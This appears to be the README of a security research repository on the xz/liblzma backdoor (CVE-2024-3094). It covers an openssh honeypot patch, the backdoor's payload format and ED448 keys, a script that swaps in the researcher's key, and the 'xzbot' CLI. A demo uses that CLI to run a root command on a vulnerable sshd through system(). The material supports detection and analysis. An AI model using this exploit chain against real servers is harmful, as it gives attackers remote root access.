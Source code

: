# xzbot

Exploration of the xz [backdoor](https://www.openwall.com/lists/oss-security/2024/03/29/4) (CVE-2024-3094).
Includes the following:
* [honeypot](#honeypot): fake vulnerable server to detect exploit attempts
* [ed448 patch](#ed448-patch): patch liblzma.so to use our own ED448 public key
* [backdoor format](#backdoor-format): format of the backdoor payload
* [backdoor demo](#backdoor-demo): cli to trigger the RCE assuming knowledge of the ED448 private key

![xzbot demo](assets/demo.png)

## honeypot

See [openssh.patch](openssh.patch) for a simple patch to openssh that logs any
connection attempt with a public key N matching the backdoor format.

```
$ git clone https://github.com/openssh/openssh-portable
$ patch -p1 < ~/path/to/openssh.patch
$ autoreconf
$ ./configure
$ make
```

Any connection attempt will appear as follows in sshd logs:
```
$ journalctl -u ssh-xzbot --since='1d ago' | grep xzbot:
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: magic 1 [preauth]
Mar 30 00:00:00 honeypot sshd-xzbot[1234]: xzbot: 010000000100000000000000000000005725B22ED2...
```

# ed448 patch

The backdoor uses a hardcoded ED448 public key for signature validation and
decrypting the payload. If we replace this key with our own, we can trigger
the backdoor.

The attacker's ED448 key is:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
10 0c b0 6c 3a be 14 ee 89 55 d2 45 00 c7 7f 6e
20 d3 2c 60 2b 2c 6d 31 00
```

We will replace this key with our own (generated with seed=0):
```
5b 3a fe 03 87 8a 49 b2 82 32 d4 f1 a4 42 ae bd
e1 09 f8 07 ac ef 7d fd 9a 7f 65 b9 62 fe 52 d6
54 73 12 ca ce cf f0 43 37 50 8f 9d 25 29 a8 f1
66 91 69 b2 1c 32 c4 80 00
```

To start, download a backdoored libxzma shared object, e.g.
from https://snapshot.debian.org/package/xz-utils/5.6.1-1.
Then run the patch script. See [assets/](assets/) for examples.

```
$ pip install pwntools
$ shasum -a 256 liblzma.so.5.6.1
605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  liblzma.so.5.6.1
$ python3 patch.py liblzma.so.5.6.1
Patching func at offset: 0x24470
Generated patched so: liblzma.so.5.6.1.patch
```

Then run sshd using this modified `liblzma.so.5.6.1.patch` shared object.

## backdoor format

The backdoor can be triggered by connecting with an SSH certificate with a
payload in the CA signing key N value. This payload must be encrypted and
signed with the attacker's ED448 key.

The structure has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|   a (32 bit)  |   b (32 bit)  |           c (64 bit)          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
+                     ciphertext (240 bytes)                    +
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

A request type is derived from the three values above (`a * b + c`).
If this value is greater than 3, the backdoor skips processing.

* Type 1: unknown, expects zero bytes
* Type 2: executes null-terminated payload with system()
* Type 3: unknown, expects 48 bytes (signed)

The ciphertext is encrypted with chacha20 using the first 32 bytes of the
ED448 public key as a symmetric key. As a result, we can decrypt any
exploit attempt using the following key:
```
0a 31 fd 3b 2f 1f c6 92 92 68 32 52 c8 c1 ac 28
34 d1 f2 c9 75 c4 76 5e b1 f6 88 58 88 93 3e 48
```

The ciphertext has the following format:
```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    signature (114 bytes)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| x (1 bit) |            unused ? (14 bit)          | y (1 bit) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         length (8 bit)        |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|        unknown (8 bit)        |         command \x00          |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

Setting either `x` or `y` leads to slightly different code paths.

The signature is an RFC-8032 ED448 signature computed over the following values:
* The 32-bit magic value (e.g. `02 00 00 00`)
* The 5 bytes of fields before command
* [optional] `length` bytes of the command
* The first 32 bytes of the sha256 hash of the server's hostkey

# backdoor demo

```
$ go install github.com/amlweems/xzbot@latest
```

```
$ xzbot -h
Usage of xzbot:
  -addr string
        ssh server address (default "127.0.0.1:2222")
  -seed string
        ed448 seed, must match xz backdoor key (default "0")
  -cmd string
        command to run via system() (default "id > /tmp/.xz")
```

The following will connect to a vulnerable SSH server at `127.0.0.1:2222` and
run the command `id > /tmp/.xz`:
```
$ xzbot -addr 127.0.0.1:2222 -cmd 'id > /tmp/.xz'
00000000  00 00 00 1c 73 73 68 2d  72 73 61 2d 63 65 72 74  |....ssh-rsa-cert|
00000010  2d 76 30 31 40 6f 70 65  6e 73 73 68 2e 63 6f 6d  |-v01@openssh.com|
00000020  00 00 00 00 00 00 00 03  01 00 01 00 00 01 01 01  |................|
00000030  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000150  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000160  00 00 01 14 00 00 00 07  73 73 68 2d 72 73 61 00  |........ssh-rsa.|
00000170  00 00 01 01 00 00 01 00  02 00 00 00 01 00 00 00  |................|
00000180  00 00 00 00 00 00 00 00  54 97 bc c5 ef 93 e4 24  |........T......$|
00000190  cf b1 57 57 59 85 52 fd  41 2a a5 54 9e aa c6 52  |..WWY.R.A*.T...R|
000001a0  58 64 a4 17 45 8a af 76  ce d2 e3 0b 7c bb 1f 29  |Xd..E..v....|..)|
000001b0  2b f0 38 45 3f 5e 00 f1  b0 00 15 84 e7 bc 10 1f  |+.8E?^..........|
000001c0  0f 5f 50 36 07 9f bd 07  05 77 5c 74 84 69 c9 7a  |._P6.....w\t.i.z|
000001d0  28 6b e8 16 aa 99 34 bf  9d c4 c4 5c b8 fd 4a 3c  |(k....4....\..J<|
000001e0  d8 2b 39 32 06 d9 4f a4  3a 00 d0 0b 0f a2 21 c0  |.+92..O.:.....!.|
000001f0  86 c3 c9 e2 e6 17 b4 a6  54 ba c3 a1 4c 40 91 be  |........T...L@..|
00000200  91 9a 2b f8 0b 18 61 1c  5e e1 e0 5b e8 00 00 00  |..+...a.^..[....|
00000210  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
...
00000260  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000270  00 00 00 00 00 00 00 00  00 00 00 10 00 00 00 07  |................|
00000280  73 73 68 2d 72 73 61 00  00 00 01 00              |ssh-rsa.....|
2024/03/30 00:00:00 ssh: handshake failed: EOF
```

On the vulnerable server, we can set a watchpoint for the call to `system()`
and observe the command is executed:
```
$ bpftrace -e 'watchpoint:0x07FFFF74B1995:8:x {
    printf("%s (%d): %s\n", comm, pid, str(uptr(reg("di"))))
}'
Attaching 1 probe...
sshd (1234): id > /tmp/.xz

$ cat /tmp/.xz
uid=0(root) gid=0(root) groups=0(root)
```

The process tree after exploitation looks different from a normal sshd
process tree:
```
# normal process tree
$ ssh foo@bar
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root        1026     765  7 18:51 ?        00:00:00  \_ sshd: foo [priv]
foo         1050    1026  0 18:51 ?        00:00:00      \_ sshd: foo@pts/1
foo         1051    1050  0 18:51 pts/1    00:00:00          \_ -bash

# backdoor process tree
$ xzbot -cmd 'sleep 60'
$ ps -ef --forest
root         765       1  0 17:58 ?        00:00:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         941     765  4 18:04 ?        00:00:00  \_ sshd: root [priv]
sshd         942     941  0 18:04 ?        00:00:00      \_ sshd: root [net]
root         943     941  0 18:04 ?        00:00:00      \_ sh -c sleep 60
root         944     943  0 18:04 ?        00:00:00          \_ sleep 60
```

*Note: successful exploitation does not generate any INFO or higher log entries.*

# References

- https://www.openwall.com/lists/oss-security/2024/03/29/4
- https://gist.github.com/smx-smx/a6112d54777845d389bd7126d6e9f504
- https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
- https://gist.github.com/keeganryan/a6c22e1045e67c17e88a606dfdf95ae4
